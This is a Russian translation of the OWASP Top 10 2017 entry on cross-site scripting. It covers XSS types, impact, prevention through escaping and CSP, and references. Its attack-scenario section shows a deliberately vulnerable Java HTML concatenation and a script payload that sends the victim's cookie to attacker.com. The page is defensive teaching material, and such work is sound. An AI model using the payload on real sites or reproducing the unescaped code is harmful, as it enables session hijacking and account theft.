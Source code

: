 # A7:2017 Межсайтовое выполнение сценариев (XSS)

| Источники угроз/Векторы атак | Недостатки безопасности           | Последствия               |
| -- | -- | -- |
| Зависит от прил. : Сложность эксплуатации 3 | Распространённость 3 : Сложность обнаружения 3 | Технические 2 : Для бизнеса ? |
| Автоматизированные инструменты могут обнаруживать и эксплуатировать все три вида межсайтового выполнения сценариев, более того, фреймворки для их эксплуатации можно найти в открытом доступе.  | Межсайтовое выполнение сценариев (XSS) является второй по распространенности уязвимостью из Топ-10 OWASP и обнаруживается в двух третях всех приложений. Автоматизированные инструменты могут обнаруживать XSS автоматически, особенно в случае проработанных технологий, таких как PHP, J2EE / JSP и ASP.NET. | Межсайтовое выполнение сценариев будет иметь последствия средней степени тяжести в случае отраженного XSS или XSS на основе объектной модели документа и серьезные последствия в случае межсайтового выполнения хранимых сценариев с удаленным выполнением кода в браузере пользователя, например, кража учетных данных, перехват сессий или установка вредоносного ПО. |

## Является ли приложение уязвимым?

Существует три типа XSS, обычно эксплуатируемых в браузерах:

* __Отраженное межсайтовое выполнение сценариев (Reflected XSS)__: Приложение или API включает непроверенные и непреобразованные данные в состав HTML. Успешная атака может привести к выполнению произвольного HTML- и JavaScript-кода в браузере жертвы. Обычно злоумышленнику необходимо убедить пользователя перейти по ссылке, ведущей на вредоносную страницу, например, используя атаку типа "водопой" или рекламу.
* __Межсайтовое выполнение хранимых сценариев (Stored XSS)__: Приложение или API сохраняет необработанные входные данные, с которыми затем взаимодействуют пользователи или администраторы. Межсайтовое выполнение хранимых сценариев обычно считается очень опасной уязвимостью.
* __Межсайтовое выполнение сценариев на основе объектной модели документа (DOM XSS)__: JavaScript-фреймворки, одностраничные приложения и API, динамически добавляющие вредоносные данные на страницы, подвержены XSS на основе DOM. В идеале, приложение не должно отправлять вредоносные данные небезопасным JavaScript API.

Обычно XSS используется для перехвата сессий, кражи учетных записей, обхода МФА, замены или подмены DOM-узлов (напр., троянские панели входа в систему), а также атак на браузеры, например, для загрузки вредоносного ПО, регистрации нажатий и других атак на стороне клиента.

## Как предотвратить

Для предотвращения XSS необходимо отделять непроверенные данные от активного контента браузера. Этого можно достичь следующими способами:

* Использовать фреймворки с автоматическим преобразованием данных, как в последних версиях Ruby on Rails и React JS. Необходимо также проанализировать ограничения XSS-защиты каждого фреймворка и обеспечить соответствующую обработку этих исключений.
* Преобразовывать недоверенные данные из HTTP-запросов, основываясь на контексте, в HTML-коде (теле, атрибутах, JavaScript, CSS или URL) для предотвращения отраженного XSS и межсайтового выполнения хранимых сценариев. ["Памятка OWASP: Предотвращение XSS"](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) содержит подробные инструкции по преобразованию данных.
* Применять контекстное кодирование при изменении документа в браузере пользователя для предотвращения XSS на основе DOM. Если это невозможно, то применять контекстное кодирование к API браузера (см. ["Памятку OWASP: Предотвращение XSS на основе DOM"](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)).
* Использовать [политику защиты содержимого (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) для предотвращения XSS. Эта мера эффективна, если отсутствуют уязвимости, позволяющие внедрить код через локальные файлы (напр., используя подмену путей или уязвимые библиотеки из разрешенных сетей доставки контента).

## Примеры сценариев атак

**Сценарий №1**: Приложение использует непроверенные данные при создании HTML-сниппета без их подтверждения или преобразования:

```
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```
Злоумышленник меняет параметр 'CC' в браузере на:

```
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'
```

Идентификатор сессии жертвы отправляется на сайт злоумышленника, позволяя атакующему перехватить текущую сессию пользователя.

**Примечание**: злоумышленник может использовать XSS для обхода защиты от межсайтовой подмены запросов (CSRF), используемой в приложении.

## Ссылки

### OWASP

* [Проактивная защита OWASP: Кодирование данных](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [Проактивная защита OWASP: Проверка данных](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [Стандарт подтверждения безопасности приложений OWASP: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [Руководство OWASP по тестированию: Отраженное межсайтовое выполнение сценариев](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [Руководство OWASP по тестированию: Межсайтовое выполнение хранимых сценариев](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [Руководство OWASP по тестированию: XSS на основе объектной модели документа](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [Памятка OWASP: Предотвращение XSS](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [Памятка OWASP: Предотвращение XSS на основе DOM](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [Памятка OWASP: Обход фильтра XSS](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [Проект кодировщика Java от OWASP](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Сторонние

* [CWE-79: Некорректная нейтрализация входных данных от пользователей](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Внедрение в пользовательские шаблоны](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)